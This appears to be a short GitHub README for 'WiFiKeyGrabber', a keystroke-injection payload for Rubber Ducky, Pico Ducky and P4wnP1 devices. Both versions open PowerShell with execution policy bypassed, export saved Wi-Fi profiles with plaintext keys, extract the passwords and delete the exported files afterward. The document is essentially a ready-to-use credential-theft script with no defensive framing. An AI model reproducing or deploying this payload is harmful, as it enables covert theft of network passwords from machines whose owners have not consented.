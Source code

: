 # Credentials - WiFiKeyGrabber

## Description

WiFiKeyGrabber is a simple HIDScript that show in powershell output the saved Wi-Fi Passwords.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

## Rubber/Pico Ducky Version

```bash
DEFAULT_DELAY 1000
GUI r
DELAY 200
STRING powershell.exe -nop -exec bypass
ENTER
DELAY 200
STRING netsh wlan export profile key=clear
ENTER
DELAY 200
STRING Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table
ENTER
DELAY 200
STRING del Wi-Fi*.xml
ENTER
```

## P4wnP1 Version

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe -nop -exec bypass")
press("ENTER")
delay(1000)
type("netsh wlan export profile key=clear")
press("ENTER")
type("Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table")
press("ENTER")
type("del Wi-Fi*.xml")
press("ENTER")
```

